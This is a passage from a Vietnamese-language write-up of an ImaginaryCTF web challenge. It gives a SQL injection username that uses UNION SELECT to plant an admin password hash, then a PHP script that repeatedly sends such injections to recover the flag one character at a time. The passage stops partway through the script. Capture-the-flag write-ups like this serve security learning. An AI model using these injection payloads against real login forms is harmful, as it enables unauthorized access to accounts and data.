 Ở đây nó GET 1 cái magic gì đó tìm không thấy nên ta thử dùng tk của guest sql vô admin thì ta được

username : `guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --`

password: guest

<figure><img src="assets/image (15).png" alt=""><figcaption></figcaption></figure>

Magic: 688a35c685a7a654abc80f8e123ad9f0

Sử url thành [http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0](http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0)

tiến hành viết code để exploit thôi

````php
```php
<?php
$url = "http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0";

// Biến lưu trữ flag, ban đầu rỗng
$flag = '';

while (true) {
    // Độ dài của ký tự cần brute force, giả sử flag có độ dài là 71 ký tự
    $length = 71 - strlen($flag);

    // Ký tự "overflow" là ký tự filler (tràn), có thể là bất kỳ ký tự nào
    $overflow = str_repeat("A", $length);

    // Duyệt qua các ký tự in được (loại bỏ 6 ký tự cuối)
    foreach (str_split("{|}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!0123456789\"#$%&'()*+,-./:;<=>?@[\\]^_`~") as $c) {
        $guess = $overflow . $flag . $c;

        // Hash password bằng hàm password_hash()
        $hashed_password = password_hash($guess, PASSWORD_BCRYPT);

        // Tạo một mảng dữ liệu để gửi đi trong yêu cầu POST
        $data = array(
            'username' => "xxx' UNION SELECT 'admin' AS username, '$hashed_password' AS pwhash--",
            'password' => $overflow
        );

        // Thiết lập các tùy chọn yêu cầu
        $options = array(
            'http' => array(
                'header' => "Content-type: application/x-www-form-urlencoded\r\n",
                'method' => 'POST',
                'content' => http_build_query($data),
            ),
        );

        // Tạo context stream
        $context = stream_context_create($options);

        // Thực hiện yêu cầu POST và lưu kết quả vào biến $response
        $response = file_get_contents($url, false, $context);

        // Kiểm tra xem trong response có chuỗi "Welcome admin" hay không
        if (strpos($response, 'Welcome admin') !== false) {
            // Nếu tìm thấy, thêm ký tự $c vào biến $flag và tiếp tục vòng lặp
            $flag .= $c;
````
